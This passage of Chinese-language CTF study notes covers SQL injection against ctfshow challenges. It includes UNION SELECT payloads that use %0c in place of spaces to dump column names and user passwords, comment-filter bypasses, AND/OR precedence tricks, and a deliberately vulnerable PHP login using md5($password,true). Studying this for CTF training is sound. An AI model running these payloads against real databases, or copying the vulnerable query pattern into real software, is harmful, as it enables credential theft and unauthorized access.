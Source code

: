 ```
1'%0cunion%0cselect%0c1,2,group_concat(column_name)%0cfrom%0cinformation_schema.columns%0cwhere%0ctable_name='ctfshow_user'%23
```

```
1'%0cunion%0cselect%0c1,2,group_concat(id,username,password)%0cfrom%0cctfshow_user%23
```



## 4.--+过滤

使用#

或者%23

或者--%20(--加空格绕过，空格可以用%0c,%09……)

## 5.and 和 or

and 的优先级高于 or

```
select id,username,password from ctfshow_user where username != 'flag' and id = '0'or(id=26)and'1' limit 1;

select id,username,password from ctfshow_user where username != 'flag' and id = '0'or(id=26)and'1' limit 1;
```

## 6.md5($str, true)类型绕过

源码：

```php
<?php
        $flag="";
		$password=$_POST['password'];
		if(strlen($password)>10){
			die("password error");
		}
		$sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
		$result=mysqli_query($con,$sql);
			if(mysqli_num_rows($result)>0){
					while($row=mysqli_fetch_assoc($result)){
						 echo "登陆成功<br>";
						 echo $flag;
					 }
			}
    ?>


```

在 mysql 里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如 password =‘xxx’ or ‘1xxxxxxxxx’，那么就相当于 password =‘xxx’ or 1 ，也就相当于 password =‘xxx’ or true，所以返回值就是 true。
